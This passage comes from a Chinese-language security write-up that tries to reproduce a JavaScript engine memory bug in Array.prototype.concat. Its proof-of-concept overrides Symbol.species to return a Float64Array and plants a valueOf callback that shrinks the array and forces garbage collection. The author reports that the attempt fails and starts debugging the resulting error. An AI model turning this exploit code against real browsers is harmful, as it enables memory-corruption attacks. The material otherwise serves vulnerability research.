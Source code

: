   
2.3.2.2将POC进行整合  
```
      function gc() {
         for (var i = 0; i < 0x100000; ++i) {
            var a = new String();
       }
      }
  
  
     let PrototypeArray = new Float64Array(20);
     class MyArray extends Array {
     static get [Symbol.species]() {
        return function() { return PrototypeArray; }
        };
     }
     var A = new MyArray(20);
     A.fill(1.1);
     delete A[1];
     A.__proto__[1]={
     valueOf: function() {
        A.length = 1;
       gc();
     }
    };
  
    var c = Array.prototype.concat.call(A);
    console.log(c);
```  
  
  
2.3.2.2结果演示  
  
  
遗憾的并没有成功。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GZ3ibyJL3lH8zQuQcXtaPtgnqsbTqiaVMOibHn63teWOsPJibmVCKDxAa1233oj8DLn59QDgB5zlmx9g/640?wx_fmt=png "")  
  
 图 2.3.2.2     
  
  
按照图 2.3.2.2报错提示说在MyArray.concat中出现问题，说是[object Object]只有getter，不能设置其长度，因为在Array.prototype.concat.call过程中MyArray已经被新的构造函数重写为let PrototypeArray = new Float64Array(20);的PrototypeArray，所以这个[object Object]应该指的就是PrototypeArray，  
  
再者这里说property length不能设置导致错误，我们尝试随意对PrototypeArray配置其length属性的setter，看会出现什么。  
  
  
因为本人也不知道Setter设置需要是什么，所以这里这里测试设置为数字1。  
```
  PrototypeArray.__defineSetter__('length', 1);
```  
  
  
得出来的报错为：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GZ3ibyJL3lH8zQuQcXtaPtgnqsbTqiaVMOibHn63teWOsPJibmVCKDxAa1233oj8DLn59QDgB5zlmx9g/640?wx_fmt=png "")  
  